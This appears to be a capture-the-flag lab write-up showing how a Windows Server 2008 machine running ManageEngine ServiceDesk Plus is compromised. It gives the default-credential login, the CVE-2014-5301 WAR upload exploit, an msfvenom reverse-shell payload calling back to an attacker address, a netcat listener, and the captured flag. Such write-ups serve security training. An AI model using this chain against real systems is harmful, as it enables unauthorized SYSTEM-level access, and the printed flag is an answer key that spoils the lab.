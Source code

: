 # Helpdesk - ManageEngine ServiceDesk Exploitation Walkthrough

This is a full exploitation walkthrough for the Helpdesk lab machine running Windows Server 2008. The objective was to exploit an authenticated file upload vulnerability in ManageEngine ServiceDesk Plus and gain SYSTEM-level access.

## Target Information

IP Address: 192.168.212.43  
Hostname: HELPDESK  
Operating System: Windows Server 2008 Standard SP1  
Web Application: ManageEngine ServiceDesk Plus  
Port: 8080 (Apache Tomcat)

## Enumeration

Performed an initial Nmap scan:

nmap -T4 -A -Pn 192.168.212.43 -o nmap

Open ports discovered:
- 135 (Microsoft RPC)
- 139 (NetBIOS-SSN)
- 445 (Microsoft-DS / SMB)
- 3389 (RDP)
- 8080 (Apache Tomcat - ManageEngine ServiceDesk)

Additional Info:
- OS: Windows Server 2008 Standard SP1  
- Hostname: HELPDESK  
- Workgroup: WORKGROUP  
- SMB message signing: disabled  
- Guest login allowed  

## Web Enumeration

Visited: http://192.168.212.43:8080  
Found: Login page for ManageEngine ServiceDesk Plus

Performed Google search for default credentials:  
Successfully logged in using:

Username: administrator  
Password: administrator

## Exploitation - CVE-2014-5301

Identified that this version of ManageEngine is vulnerable to an **authenticated WAR file upload** vulnerability.

Used public exploit:

https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py

Generated malicious Java WAR reverse shell using msfvenom:

msfvenom -p java/shell_reverse_tcp LHOST=192.168.45.167 LPORT=445 -f war -o pwnz.war

Uploaded the WAR file using the exploit script:

python3 CVE-2014-5301.py 192.168.212.43 8080 administrator administrator pwnz.war

Started listener:

rlwrap nc -nlvp 445

Received reverse shell as:

NT AUTHORITY\SYSTEM

## Captured Flag

Located file:

C:\Users\Administrator\Desktop\proof.txt

Flag:

3c03e10e4b256e5797f9295c9c7b716d

## Tools Used

- nmap  
- ManageEngine default credentials  
- CVE-2014-5301 exploit script  
- msfvenom  
- rlwrap + netcat

## Summary

- Discovered exposed web interface on port 8080  
- Logged in using default credentials  
- Exploited CVE-2014-5301 to upload malicious WAR file  
- Received SYSTEM-level shell using reverse connection  
- Retrieved administrator flag

## Author

Farhanahmad Quraishi
